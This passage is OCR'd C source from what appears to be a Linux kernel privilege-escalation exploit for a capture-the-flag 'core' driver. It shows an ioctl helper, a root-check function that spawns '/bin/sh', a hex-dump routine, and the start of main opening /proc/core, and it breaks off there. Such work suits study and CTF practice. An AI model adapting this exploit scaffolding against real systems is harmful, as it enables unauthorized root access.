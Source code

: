 ```c
void edit_off(size_t num)
{
    ioctl(fd,0x6677889C,num);
}

void shell()
{
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
	int index = 0;
	char output_buffer[80];
	memset(output_buffer, '\0', 80);
	memset(output_buffer, ' ', 0x10);
	for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
		char temp_buffer[0x10];
		memset(temp_buffer, '\0', 0x10);
		sprintf(temp_buffer, "%#5x", index);
		strcpy(output_buffer, temp_buffer);
		output_buffer[5] = ' ';
		output_buffer[6] = '|';
		output_buffer[7] = ' ';
		for(int j=0; j<16; j++){
			if(index+j >= length)
				sprintf(output_buffer+8+3*j, "   ");
			else{
				sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
				if(!isprint(buf[index+j]))
					output_buffer[58+j] = '.';
				else
					output_buffer[58+j] = buf[index+j];
			}
		}
		output_buffer[55] = ' ';
		output_buffer[56] = '|';
		output_buffer[57] = ' ';
		printf("%s\n", output_buffer);
		memset(output_buffer+58, '\0', 16);
		index += 16;
	}
}


int main()
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    // open core
    fd=open("/proc/core",2);
    if(fd==0)
    {
        printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
		exit(1);
```